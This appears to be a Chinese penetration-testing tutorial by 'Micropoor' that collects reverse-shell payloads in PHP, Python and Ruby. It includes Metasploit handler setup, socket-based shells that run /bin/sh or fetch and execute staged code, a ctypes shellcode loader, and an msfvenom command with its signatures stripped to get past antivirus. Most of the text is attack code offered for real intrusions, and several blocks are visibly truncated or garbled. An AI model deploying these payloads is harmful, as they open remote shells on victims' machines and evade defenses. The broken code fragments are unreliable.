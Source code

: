在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 PHP，python，ruby。

ps:在线代码高亮：http://tool.oschina.net/highlight

### 1、php-payload
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```php
<?
php error_reporting(0); $ip = 'x.x.x.x'; $port = 53; if (($f = 'stream_socket_client') && is_callable($f)) { 
{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_ 
strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s;
$GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('s 
>
```
![](media/c62949c5cacf6d6a5605200311aa5b9a.jpg)

```php
<?php
$sock=fsockopen("xx.xx.xx.xx",xx);exec("/bin/sh -i <&3 >&3 2>&3"); 
?>
```
![](media/107730c867318d074cc21b9b490d8e8d.jpg)

### 2、python-payload
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```python
import socket,struct,time 
for x in range(10):
    try:
        s=socket.socket(2,socket.SOCK_STREAM)
        s.connect(('x.x.x.x',xx)) 
        break
    except:
        time.sleep(5) l=struct.unpack('>I',s.recv(4))[0] 
d=s.recv(l)
while len(d)<l: 
    d+=s.recv(l-len(d))
exec(d,{'s':s})
```  
![](media/56fa0d76a0ef5b598d14f8a67de449b7.jpg)

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",xx));
i"]);
```  
![](media/268f5cbb31121e9d7f37909587296e7a.jpg)

```python
import socket import subprocess

s=socket.socket()
s.connect(("xx.xx.xx.xx",xx)) while 1:
p = subprocess.Popen(s.recv(1024), shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subpro s.send(p.stdout.read() + p.stderr.read())
```
![](media/710a81ff2c29a516aa878760e1fbd110.jpg)

删除特征：
```bash
root@John:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=8.8.8.8 LPORT=88 -f c | tr -d '"' | tr -d '\n'
```
![](media/34aeea621a28e0377b370eda4a63aaa2.jpg)

```python
from ctypes import *

reverse_shell = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72
micropoorshell = create_string_buffer(reverse_shell, len(reverse_shell))
shellcode = cast(micropoorshell, CFUNCTYPE(c_void_p))
shellcode()
```

### 2、ruby-payload
```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx", x);$stdin.reopen(c);$stdout.reopen(c);$stderr.reopen(c);$stdi
(IO.popen(l,"rb"){|fd| fd.each_line {|o| c.puts(o.strip) }}) rescue nil}
```
![](media/5253458a976fd4e0212059638751245b.jpg)

```ruby
require 'socket';f=TCPSocket.open("xx.xx.xx.xx",xx).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)
```
![](media/b9032b829c6a977288c32948088801b6.jpg)

```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end  
```
![](media/cdb7a522f8eb1facc72265a923ef173e.jpg)

```ruby
c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print
io.read}end
```
![](media/9246e2313d4cbcb3c4dacced7c25e0c1.jpg)

>   Micropoor

